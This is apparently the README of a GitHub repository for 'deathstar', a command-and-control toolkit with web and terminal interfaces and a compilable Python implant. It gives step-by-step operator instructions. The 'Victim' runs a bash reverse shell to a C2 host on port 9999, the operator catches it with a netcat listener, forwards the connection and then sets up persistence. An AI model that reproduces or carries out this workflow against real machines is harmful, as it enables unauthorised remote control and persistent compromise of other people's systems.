 # deathstar
Build and understand C2 infrastructure.

`Deathstar` has a webpage, or a terminal based C2 connection manager.

`stardestroyer.py` is one option of calling into the C2 server.

`compiler.sh` will compile `stardestroyer.py` into an EXE.

# Web based C2
![image](https://github.com/user-attachments/assets/2276420d-6134-48a0-8e2e-5e6a0ddef95b)

# CLI based C2
![image](https://github.com/user-attachments/assets/e574c863-f44f-47fb-ad8a-7c3148b247e2)

# Download deathstar

```git clone github.com/bwithe/deathstar```

# Web C2 server 
1. Start the server
  - `python3 deathstar-web.py`
2. Open link in web browser
  - `firefox 127.0.0.1:5000`
3. Have Victim connect to C2
  - Linux / MacOS
    - `bash -i >& /dev/tcp/<C2-IP>/9999 0>&1`
    - This will drop the moment the C2 server 'drops'
OR
    - This will continue to connect to the C2 server even after it 'drops'
    - `./stardestroyer.py &`
4. Start your listener 
  - `nc -nvlp 4444`
5. Forward the connection to your listener
  - On the webpage, type the IP of the listening device, and then click forward.
6. Catch the connection
  - Once you've caught the connection, begin setting up persistence.
7. Wash, rince, repeat.

# CLI C2 server
1. Start the server
  - `python3 deathstar-term.py`
2. Have Victim connect to C2
  - Linux / MacOS
    - `bash -i >& /dev/tcp/<C2-IP>/9999 0>&1`
    - This will drop the moment the C2 server 'drops'
OR
    - This will continue to connect to the C2 server even after it 'drops'
    - `./stardestroyer.py &`
3. Start your listener 
  - `nc -nvlp 4444`
4. Forward the connection to your listener
  - On the CLI, list the connections.
    - Select `2)` to forward.
    - Specify the `ID` of the `VICTIM` you'd like to forward.
    - Then, type the IP of your `LISTENING` device.
5.Catch the connection
  - Once you've caught the connection, begin setting up persistence.
6. Wash, rince, repeat.


